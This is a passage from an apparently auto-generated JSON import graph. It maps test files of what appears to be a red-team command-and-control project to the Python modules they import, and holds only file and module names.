"tests/test_auto_crypto.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_crypto.py", "target": "cli.commands.misc_migrated"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_registry.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_registry.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_registry.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_registry.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_registry.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_registry.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_registry.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_registry.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_registry.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules.asset_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules.asset_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules.planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules.planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules.llm_pool"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules.notify"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules.sidequestion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules.selfupdate"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules.selfupdate"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules.llm_pool"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules.llm_pool"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules.finding_lifecycle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules.enrich"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_ops.py", "target": "modules.enrich"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_replay.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_replay.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_replay.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_replay.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_replay.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_replay.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_replay.py", "target": "skills.autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autonomous_replay.py", "target": "skills.autonomous_replay"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autosuggest.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autosuggest.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autosuggest.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_autosuggest.py", "target": "cli.autosuggest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_banner_config.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_banner_config.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_banner_config.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_banner_config.py", "target": "unittest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_banner_config.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_banner_config.py", "target": "cli.banner_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_banner_config.py", "target": "cli.banner_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_banner_config.py", "target": "cli.banner_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bdd_infra_range_report.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bdd_infra_range_report.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bdd_infra_range_report.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bdd_infra_range_report.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bdd_infra_range_report.py", "target": "cli.commands.infra"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bdd_infra_range_report.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bdd_infra_range_report.py", "target": "modules.c2_builder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bdd_infra_range_report.py", "target": "cli.commands.lab"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bdd_infra_range_report.py", "target": "modules.professional_report"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_beacon_config_builder.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_beacon_config_builder.py", "target": "modules.beacon_config_builder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_beacon_history.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_beacon_history.py", "target": "modules.beacon_history"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_blacksandbeacon_addon.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_blacksandbeacon_addon.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_blacksandbeacon_addon.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_blacksandbeacon_addon.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_blacksandbeacon_addon.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_registry.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_registry.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_registry.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_registry.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_registry.py", "target": "modules.bof_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bootstrap_installer.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bootstrap_installer.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bootstrap_installer.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bootstrap_installer.py", "target": "stat"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bootstrap_installer.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bootstrap_installer.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bootstrap_installer.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_boyscout_contracts.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_boyscout_contracts.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_boyscout_contracts.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_boyscout_contracts.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_boyscout_contracts.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_boyscout_contracts.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_boyscout_contracts.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_boyscout_contracts.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_boyscout_contracts.py", "target": "lazyown_mcp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_boyscout_contracts.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_boyscout_contracts.py", "target": "lazyown_mcp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bridge_catalog_filtered.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bridge_catalog_filtered.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bridge_catalog_filtered.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bridge_catalog_filtered.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bridge_catalog_filtered.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bridge_catalog_filtered.py", "target": "lazyown_groq_agents"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bridge_catalog_filtered.py", "target": "lazyown_groq_agents"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bridge_catalog_filtered.py", "target": "lazyown_groq_agents"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bridge_catalog_filtered.py", "target": "lazyown_groq_agents"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bridge_catalog_filtered.py", "target": "lazyown_groq_agents"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_profile_engine.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_profile_engine.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_profile_engine.py", "target": "modules.c2_profile_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_route_auth.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_route_auth.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_route_auth.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_route_auth.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_shell_lazy.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_shell_lazy.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_shell_lazy.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_campaign_import_safety.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_campaign_import_safety.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_campaign_import_safety.py", "target": "sqlite3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_campaign_import_safety.py", "target": "zipfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_campaign_import_safety.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_campaign_import_safety.py", "target": "core.safe_import"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_categories.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_categories.py", "target": "modules.categories"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_categories.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_chain_mode.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_chain_mode.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_chain_mode.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_chain_mode.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_chain_mode.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_chain_mode.py", "target": "cli.chain_mode"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_chain_mode.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_ci_strict.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_ci_strict.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_ci_strict.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_claudemd_consistency.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_claudemd_consistency.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_claudemd_consistency.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_claudemd_consistency.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_claudemd_size.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_claudemd_size.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "cli.show"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "cli.show"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "cli.show"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "cli.show"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "cli.show"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "cli.show"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "cli.show"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "cli.show"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_assign.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_auth_remember.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_auth_remember.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_auth_remember.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_auth_remember.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_auth_remember.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_auth_remember.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_auth_remember.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli.registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli.registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli.commands.diagnostics"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli.commands.diagnostics"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli.commands.diagnostics"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli.registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_command_sets.py", "target": "cli.commands.diagnostics"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_enhancements.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_enhancements.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_enhancements.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_enhancements.py", "target": "textwrap"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_enhancements.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_enhancements.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_enhancements.py", "target": "cli.cli_enhancements"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_enhancements.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_enhancements.py", "target": "cli.commands.audit"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_enhancements.py", "target": "cli.commands.audit"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_enhancements.py", "target": "cli.commands.audit"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_cli_enhancements.py", "target": "cli.commands.audit"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "collab_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "flask_login"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "collab_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "collab_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "collab_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "collab_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "collab_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "collab_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "collab_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "collab_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_collab_and_onboarding.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_allowlist.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_allowlist.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_allowlist.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_allowlist.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_allowlist.py", "target": "lazyc2.security.command_allowlist"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_allowlist_behavior.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_allowlist_behavior.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_allowlist_behavior.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_allowlist_behavior.py", "target": "lazyc2.security.command_allowlist"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_chain.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_chain.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_chain.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_chain.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_chain.py", "target": "cli.command_chain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_chain.py", "target": "cli.exploration"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_form.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_form.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_form.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_form.py", "target": "cli.command_form"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_namespace_uniqueness.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_namespace_uniqueness.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_namespace_uniqueness.py", "target": "collections"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_namespace_uniqueness.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "scripts.build_command_index"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "scripts.build_command_index"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "scripts.build_command_index"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "scripts.build_command_index"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "scripts.build_command_index"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "scripts.build_command_index"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "scripts.build_command_index"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette"}, {"confidence": "EXTRACTED", 